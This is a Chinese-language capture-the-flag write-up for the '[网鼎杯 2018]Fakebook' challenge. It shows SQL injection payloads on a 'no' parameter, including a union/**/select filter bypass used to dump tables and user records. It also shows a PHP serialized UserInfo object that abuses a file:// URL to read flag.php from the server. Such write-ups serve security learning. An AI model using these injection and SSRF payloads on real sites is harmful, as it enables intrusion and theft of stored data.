








# [网鼎杯 2018]Fakebook

## Tag

robots.txt+SSRF+PHP 反序列化

***

## Writeup

Dirsearch 可以看到有 robots.txt 和 flag.php，访问 robots.txt 得到：



访问 user.php.bak 可以有：



注册一个账户，能看到 no 参数存在注入点，用 `?no=1 and 1=2`：



通过 `?no=1 order by 5` 报错可以得到共有四列，用 `?no=1 union select 1,2,3,4` 发现被过滤了，尝试 `?no=1 union/**/select 1,2,3,4` 可以，说明是过滤了 `union select`，那么直接上 `union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#` 读取表名：



`union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#` 读取属性名：



`union/**/select 1,group_concat(no,username,passwd,data),3,4 from users#` 查看各字段值：



是我们注册的这个用户，因此根据我们得到的 user.php 有反序列化读取文件，Payload 如下：

```php
<?php
class UserInfo {
    public $name = 'Bruce';
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";
}

$a = new UserInfo();
echo serialize($a);
?>
```

Data 放在第四个字段，用 `union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"Bruce";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'`：



Base64 一解即可：

